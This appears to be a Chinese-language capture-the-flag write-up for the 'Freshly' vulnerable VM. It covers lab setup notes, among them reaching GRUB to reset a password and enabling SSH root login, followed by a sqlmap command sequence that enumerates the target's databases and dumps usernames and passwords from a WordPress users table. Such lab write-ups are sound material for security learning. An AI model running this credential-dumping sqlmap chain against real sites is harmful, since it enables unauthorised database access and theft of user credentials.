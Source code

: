 # 参考
* https://www.freebuf.com/column/162631.html
* https://www.jianshu.com/p/63becdb8c2f8
# 一些环境问题
* 破解密码(为什么要破解是当时俩台虚拟机不在同一个虚拟软件上一直没有扫到对应mac的主机)。
* 1.在没有进入引导前光标切进去长按shift进入grub。
* 2.安装open-server 
* sudo apt-get update 
*  sudo apt-get install openssh-server  
* ps -e | grep ssh
* sudo /etc/init.d/ssh resart
* 3.开启ssh root登录。
* 4.用tcpdump
* tcpdump -D 
* tcpdump -i eth0 -w file.cap
* 5.用scp
* scp root@107.172.27.254:/home/test.txt .   //下载文件
* 
* scp test.txt root@107.172.27.254:/home  //上传文件
* 
* scp -r root@107.172.27.254:/home/test .  //下载目录
* 
* scp -r test root@107.172.27.254:/home   //上传目录
* 6.靶机我这只能用vmbox打开了，vmware是一直报错，然后俩个不同的虚拟机可能网段不一样，按理全选桥接应该是一个网段的但是有时也不一样，我就一直重启直到俩个虚拟机网段一样，实现不行用vmbox也跑kali(vmware桥接无法分配ip 找到编辑->虚拟机网络编辑器->找到桥接模式那一行的外部链接要选种主机的网卡)。
* 7.靶机apache2服务器有问题，8080与443端口没打开，我就直接翻他的配置文件了，在 /etc/apache2/sites-available/000-default.conf 中有 /var/www/html。
* 8.sqlmap无法更新
* 解决方法： 找到sqlmap的路径/usr/share/salmap
* 
* 执行 cd /usr/share/
* 
* 然后删掉sqlmap   rm -rf sqlmap/
* 
* 然后执行 git clone https://github.com/sqlmapproject/sqlmap
* 
* 克隆到路径即可。

# sqlmap 语句
* 开始扫描漏洞
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3
* 开始扫描数据库
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 --dbs
* 指定数据库扫数据库表
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 --tables
* 指定数据库表扫字段
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 -T users--columns
* 指定字段dump表
* sqlmap -u "http://192.168.0.174/login.php" --form --level 3 -D wordpress8080 -T users -C "password,username" --dump
* ![avatar](https://github.com/haidragon/NetworkTrafficAnalysis/blob/master/ctf/Freshly/images/user-pass.png)
* ![avatar](https://github.com/haidragon/NetworkTrafficAnalysis/blob/master/ctf/Freshly/images/sqlmap.png)
* ![avatar](https://github.com/haidragon/NetworkTrafficAnalysis/blob/master/ctf/Freshly/images/http.png)
* ![avatar](https://github.com/haidragon/NetworkTrafficAnalysis/blob/master/ctf/Freshly/images/cve.png)

